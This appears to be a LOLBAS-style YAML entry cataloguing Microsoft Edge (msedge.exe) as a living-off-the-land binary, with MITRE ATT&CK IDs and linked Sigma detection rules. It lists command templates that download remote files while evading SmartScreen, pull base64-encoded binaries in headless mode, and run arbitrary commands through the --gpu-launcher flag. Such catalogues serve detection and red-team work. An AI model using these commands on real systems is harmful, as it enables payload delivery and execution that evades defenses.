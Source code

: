 ```yaml
---
Name: Msedge.exe
Description: Microsoft Edge browser
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: msedge.exe {REMOTEURL:.exe.txt}
    Description: Edge will launch and download the file. A 'harmless' file extension (e.g. .txt, .zip) should be appended to avoid SmartScreen.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --headless --enable-logging --disable-gpu --dump-dom "{REMOTEURL:.base64.html}" > {PATH:.b64}
    Description: Edge will silently download the file. File extension should be .html and binaries should be encoded.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --disable-gpu-sandbox --gpu-launcher="{CMD} &&"
    Description: Edge spawns cmd.exe as a child process of msedge.exe and executes the specified command
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218.015
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
Full_Path:
  - Path: c:\Program Files\Microsoft\Edge\Application\msedge.exe
  - Path: c:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_msedge_arbitrary_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_chromium_headless_file_download.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1478116126005641220
  - Link: https://twitter.com/mrd0x/status/1478234484881436672
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

